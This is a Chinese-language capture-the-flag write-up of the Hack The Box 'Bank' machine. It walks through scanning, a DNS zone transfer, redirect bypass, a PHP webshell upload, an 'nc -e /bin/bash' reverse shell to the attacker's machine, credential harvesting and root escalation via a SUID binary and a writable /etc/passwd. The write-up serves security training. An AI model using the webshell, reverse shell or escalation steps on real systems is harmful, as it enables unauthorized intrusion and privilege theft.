
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
◇ 信息收集
▪ 53/TCP
▪ 80/TCP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV -p- -oA nmap 10.10.10.29
当扫描完成时，我们可以看到这一情况
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
| 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_ 256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open domain ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid:
|_ bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
尝试先从80端口的Apache入手

只有一个默认首页，所以尝试爆破web目录看是否有其他切入点
gobuster dir -u http://10.10.10.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -o gobuster
相比Beep的扫描，增加了一个-o，目的是为了输出扫描结果
执行完也没有发现其他目录，只有一个/server-status，状态还是403
这个时候注意到nmap扫描结果中53端口对应的DNS服务使用了TCP协议，这意味着该DNS服务只用于区域传输

使用nslookup反向解析DNS，但是并没有得到结果

查看官方给出的walkthrough提示需要猜测出域名，即bank.htb，并且在使用nslookup正向解析DNS时证实了这一点

那么接下来需要去挖掘是否存在其他子域名，因为已知DNS使用区域传输，所以添加axfr参数
dig axfr bank.htb @10.10.10.29

得到子域名之后，就可以将其添加至/etc/hosts文件中，但是因为这里有DNS服务，我们可以直接添加IP地址到DNS客户机配置文件中，如下图所示

然后尝试ping域名，看是否配置成功

发现成功后就可以访问该站点了，经过测试访问 www.bank.htb, ns.bank.htb, chris.bank.htb 显示的都是Apche的默认首页，可是 bank.htb 跳转至login界面，并且利用wappalyzer得知web使用php语言

尝试弱口令失败，注入也没有什么结果，使用gobuster扫描web目录，因为已经知道目标使用了php，所以这次再加上参数 -x
gobuster dir -u http://bank.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -x php -o gobuster
扫描结果：

一个一个挨着看吧
有两种方法可以上传webshell
/index.php
发现这个页面进行了重定向，但是发现其实该重定向页面的数据还是挺大的，并且存在很多代码

尝试修改response的状态码为200 Ok，可以看到页面未跳转至login.php，出现了一些其他数据，尽管暂时未找到什么有用的，但是修改状态码确实起了作用

/support.php
因为也是302重定向到login.php，所以用同样的方式修改状态码，得到了下面的页面

这里看上去能够上传一个webshell，但是每一次都需要修改响应包中的内容有些麻烦，因此我直接在burpsuite中写入了相应的规则

为了测试能否上传php文件，我先上传了一个php文件，命名为jim.php，内容如下
<?php echo system($_REQUEST["cmd"]); ?>
但遗憾的是上传失败了，并且提示只能上传图片格式的文件，我又上传了内容相同的 jim.png ，可以看出确实上传成功了，点击 Click Here 知道了上传文件的路径

接下来尝试是否仅在前端验证，以及其他后缀名是否能够上传，经过测试，均不能上传，查看源代码寻找原因，发现提示了一句

在debug中添加了.htb格式，可以当作.php执行，那么上传.htb格式的代码，发现上传成功且能够执行命令

然后利用nc把shell反弹给kali
web执行：
http://bank.htb/uploads/jim.htb?cmd=nc -e /bin/bash 10.10.*/* 9091
kali监听：

/balance-transfer显示如下

打开任意一个acc文件查看，可以看到用户信息，但是已经加密，猜测可能是登录信息

使用wget下载所有acc文件，-r 采用递归

删除掉无用的文件

拿到这么多可能的用户信息，猜测如果存在未加密用户，文件大小比加密的要小很多，所以用 wc 统计一下文件的字数

然后再进行一个sort排序，再加上 -r 将结果颠倒
wc -c *.acc | sort -r

发现一个只有257字节的文件，打开可以看到邮箱和密码

成功登录后台，并在 support 处找到相同上传点，webshell上传与反弹shell方式类似，不在赘述

在 /home/chris 目录中找到 user.txt

使用用户名口令登录mysql，在 ../inc/user.php 中发现数据库用户名密码

然后能够登录数据库

进而获取整个数据库

尝试能否用该用户名和密码使用ssh连接，并未成功！
上传linEnum来收集目标信息，在kali中使用python开启简易http服务

然后进入目标的 /tmp 目录下，即临时目录，使用 wget 下载对应脚本

下载好后执行该脚本，然后等待即可

suid中有emergency

尝试看看执行该文件会发生什么，发现直接提权至root，然后就可以去找root.txt了

发现 /etc/passwd 文件可写

尝试写入一个具有root权限的新用户，使用openssl生成一个unix标准密码

然后使用echo往 /etc/passwd 中追加一条用户信息，成功后切换至新添加用户，即可获得root权限
